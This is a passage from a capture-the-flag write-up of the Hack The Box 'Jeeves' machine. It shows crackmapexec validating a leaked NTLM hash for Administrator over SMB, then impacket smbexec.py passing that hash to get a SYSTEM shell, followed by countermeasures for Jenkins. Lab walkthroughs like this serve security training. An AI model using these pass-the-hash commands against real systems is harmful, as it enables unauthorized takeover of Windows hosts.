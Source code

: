 ```
kali@kali:~/htb/boxes/jeeves/privesc$ crackmapexec smb 10.10.10.63 -u usernames.txt -H hashes.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [+] JEEVES\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

I then passed the hash with impacket's `smbexec.py` to get a remote Administrator console session, fully compromising the system:

```
$ python3 ~/tools/impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

## Countermeasures

* Put access controls on the Jenkins service at `http://10.10.10.63:50000` so that malicious users cannot execute arbitrary scripts from the console. If you are not using it, uninstall or disable it.
* Prefer not to keep sensitive information on a server that is running services that have little/no access controls for the services installed on them. If you still want to keep sensitive information there, create a dedicated user to run the services such as Jenkins. That dedicated user's task should be only to run Jenkins (i.e. no sensitive information or secrets should be placed in that user's directories in the case of a breach).
